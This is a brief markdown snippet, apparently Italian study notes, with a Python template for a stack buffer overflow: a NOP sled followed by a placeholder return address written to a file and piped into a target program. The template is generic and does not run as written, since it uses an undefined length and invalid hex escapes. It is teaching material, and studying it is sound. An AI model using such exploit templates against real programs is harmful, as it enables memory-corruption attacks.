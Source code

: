 * ricordare di usare `little endian`


### Exploit via python
```py
#!/usr/bin/env python
# yy = buffer dimension
buf = b"\x90" * yy
# address for overwriting return address
buf += b"\xaa\xbb\xcc\xdd\xee\xff\xgg\xhh" # address
f = open("in.txt", "wb")
f.write(buf)

# $ progToExploit < in.txt
```

